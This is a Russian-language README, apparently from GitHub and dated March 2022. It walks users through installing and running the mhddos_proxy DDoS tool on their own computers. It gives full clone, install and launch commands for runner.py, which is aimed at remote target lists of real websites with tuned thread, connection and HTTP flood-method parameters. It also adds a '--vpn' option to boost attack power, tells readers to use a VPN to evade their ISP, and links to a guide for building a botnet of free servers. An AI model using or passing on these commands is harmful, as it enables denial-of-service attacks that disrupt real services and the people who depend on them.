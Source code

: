 <h1 align="center">Установка mhddos_p напрямую на ваш комп</h1> 
March 28, 2022

<br/>
<br/>

ТЕСТОВИЛ ТОЛЬКО НА WINDOWS 10

🟢Пошаговые инструкции по установке mhddos_proxy на любую ОС 🟢
Windows / Linux / Mac / Android:  [ссылка](https://github.com/BionecX/mhddos_p/blob/main/docs/installation.md)

то есть Docker, который, по сути, является целой виртуальной машиной и жрет много ресурсов, не нужен вообще - 🔺 замена на python скрипт поможет снизить нагрузку на ваш процессор в 2-3 раза 

❗️Помощь(бесплатно) в поиске прокси для mhddos_p , НОВЫЙ МЕТОД ДЛЯ ВСЕХ ОС: https://github.com/BionecX/proxy_finder


❗️Авто-скрипт, который сам устанавливает все нужные файлы и запускает mhddos_proxy и proxy_finder в одном скрипте, и автоматически обновляет их: https://github.com/alexnest-ru/runner_for_windows


Анализ средства mhddos_p (что он выводит, и все его преимущества):
https://telegra.ph/Analiz-zasobu-mhddos-proxy-04-01


❗️Создание ботнета из 30+ бесплатных и автономных (работают даже при выключенном ПК) Linux-серверов: [ссылка](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc)



Прежде всего, нужно установить Python3 (чтобы запускать сам скрипт) и Git (чтобы скачать все зависимости (requirements))

!!!ВСЕ ПУНКТЫ ОБЯЗАТЕЛЬНЫЕ!!!


Весь код программы открыт здесь:
https://github.com/BionecX/mhddos_p


1.Установка Python3:

Способ 1 (очень простой):

Заходим в cmd (командная строка)
Командная строка

-> Прописываем python3

 -> нажимаем Enter
Если у вас до сих пор нет python3, то Вас перекинет в Microsoft store, там нажимаете Получить/Получить/Get

Если он у вас уже есть, то будет вот так:

После получения python3 закрывает это окно терминала (команды срока)

Если через cmd (командую строку) не получилось, или у вас Python ниже 3.10 (проверить можно так python --version) – попробуйте зайти самостоятельно в Microsoft Store и найти и установить там Python3.10


!!!ТОЛЬКО ЕСЛИ С ПРЕДВАРИТЕЛЬНЫМ СПОСОБОМ НЕ ПОЛУЧИЛОСЬ:!!!
Способ 2: скачиваем python: https://www.python.org
Кликаете именно в таком порядке

Запускаете скачанный файл
Именно в таком порядке 1-ый самый важный

Дальше все по умолчанию везде кликаете Далее / Да
2. Установка Git


Для начала нужно еще установить Notepad++ (удобный редактор кода, он сгодится и после нашей победы в войне):

https://notepad-plus-plus.org/downloads/v8.2.1/ 

Когда скачали, запустили установщик и установили Notepad++ переходим к следующим пунктам


Скачиваем установщик git`a https://gitforwindows.org (эта самая ссылка на оф. сайте github`a: https://github.com/git-guides/install-git#install-git-on-windows)


Ждем пока скачается, затем запускаем скачанный файл


УСТАНОВИВАТЬ НАДО САМЕ ТАК:
Из списка выбрать именно Notepad++ (который вы должны скачать раньше, если нет, то закрывайте и скачивайте, затем открывайте Setup файл еще раз)
Готово
3. Устанавливаем сам скрипт mhddos_p

Открываем Мой компьютер

Ищем папку рабочего стола:

Заходим в папку Рабочего стола:

Но в выделенной области прописываем три буквы cmd:

И нажимаем Enter – откроется окно Терминала:

Далее прописываем следующую команду:

    git clone https://BionecX/mhddos_p

и нажимаем Enter

    ddos_proxy' already exists and is not empty directory. - это значит, что нужная папка уже существует - просто следуйте инструкциям в пункт 4. Запуск атаки

Произошла загрузка нужной программы
Тем нужно зайти в папку с этой программой.

    cd mhddos_p

и сразу скачиваем необходимые зависимости:

    python -m pip install -r requirements.txt

Финально должно получиться вот так:

Теперь мы можем запускать атаки:
4. Запуск атаки

После всех предыдущих пунктов в дальнейшем вам нужно будет ВЫПОЛНЯТЬ ТОЛЬКО ЭТОТ ПУНКТ:


Находим папку из mhddos_proxy на Рабочем столе:

Открываем ее и чтобы зайти в Терминал из этой папки, в поле прописываем cmd и нажимаем Enter:


В открывшемся терминале водим следующие команды:

    cd mhddos_p
    git pull origin main

Если у вас все установлена ​​последняя версия будет вот такое сообщение:

Если нет, то установит последнюю версию:

Теперь нужно установить еще раз зависимости (а вдруг они тоже обновились):

    python -m pip install -r requirements.txt


❗️Нужно установить супер-быстрый и стабильный VPN, чтобы ваш провайдер не резал трафик из-за подключения ко многим IP(прокси):
https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23

Если вы будете без ВПН, то у вас вообще может попасть интернет на роутере, как было у меня, потому что провайдеры не любят когда из их IP идет трафик на большое количество других IP(прокси)

Другие ВПН тоже могут не подойти, потому что они могут отключаться

Наконец-то мы можем запускать атаку:

Для атаки вводим следующую команду, НАПРИМЕР:

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

Поздравляю, атака запустилась:
нули это нормально, особенно в начале атаки, пока скрипт "разгоняется"


Чтобы остановить атату: в открывшемся окне с атакой нажимаете Ctrl+C (или можно просто нажать на крестик и закрыть окно)


❗️Чтобы добавить ваш текущий IP (или IP подключенного VPN) к атаке вместе с прокси в конец команды приписывайте --vpn. (более подробно об этом: Для увеличения мощности атаки за счет вашего IP - добавьте в конец команды флажок --vpn, чтобы добавить ваш IP к атаке вместе с прокси (желательно использовать стабильный и быстрый VPN (https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0efff) ) (кроме Linux-серверов (https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5ccc) – там менять ничего не надо))) 

Например: 

    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn


5. Шаблон команды для собственных атак:


    python runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug

python runner.py <Цели-сайты> --http-methods <Методы> -t <Потоки> --rpc <Подключение> --debug

    python3 - оболочка/приложение, которая будет читать и выполнять код программ runner.py
    runner.py – сам скрипт атаки
    Цели-сайты - Цели при проведении атаки на одном уровне и с использованием одного метода атаки, указанного в --http-methods, можно перечислять через пробел, а можно указать как удаленный конфиг через -c URL (где каждая цель должна быть из новой строки ). В этом случае количество целей будет разделено на каждый метод равномерно от того количества, которое вы указали.
    Можно указывать в одной команде любые типы портов, например: http://, https://, tcp://, udp:// – все они будут разбиты на нужные методы, для http и https будут браться методы из перечня --http-methods , а для tcp и udp всегда используются методы TCP и UDP соответственно
    Методы - Со всеми методами можно ознакомиться на самом гитхабе
    ( https://github.com/MHProDev/MHDDoS#features-and-methods ). Все команды, которые мы готовим в нашем канале – мы готовим уже с необходимыми для атаки методами. На одном уровне атаки методы можно перечислять через пропуск. Самые распространенные методы:
    --http-methods GET STRESS
    Потоки – это количество "вредных" пакетов/запросов в количестве t* количество_ядер, отправляемых на цель. Здесь можно выкручивать по максимуму на столько, на сколько тянет ваш ПК (мониторите нагрузку в диспетчере задач, смотрим на ЦПУ и ОЗУ, в Kali Linux это зеленый и синий график соответственно). Будьте внимательны, в начале атаки нагрузка может быть минимальной, а спустя некоторое время зашкаливать. Учитывайте, что при увеличении пакетов/угрозов количество прокси-серверов может снизиться. По умолчанию 1000, по желанию – сколько влезет в вашу машину (но желательно не больше 10000). В этой команде: -t 5000
   Подключение – здесь указываем предполагаемое количество подключений одного прокси-сервера. Оптимально указывать от 1000 до 2000. Предположим, что у вас 1000 прокси-серверов, при указании подключений в количестве 1000, вы отправите 1 000 000 пакетов на вашу цель (в идеале, но определенный процент пакетов скорее всего может потеряться). Теперь оптимальное значение:
    --rpc 2000
    Также если вы подключены к VPN России можно добавить параметр --vpn , с помощью которого атака будет происходить через прокси и вместе с вашим IP (желательно, чтобы это был IP VPN)
    Например:
    python3 runner.py -c https://raw.githubusercontent.com/alexnest-ru/targets/main/special/archive/shop/shop_lll7_url -t 5000 --rpc 3000 --http-methods GET STRESS --debug --vpn



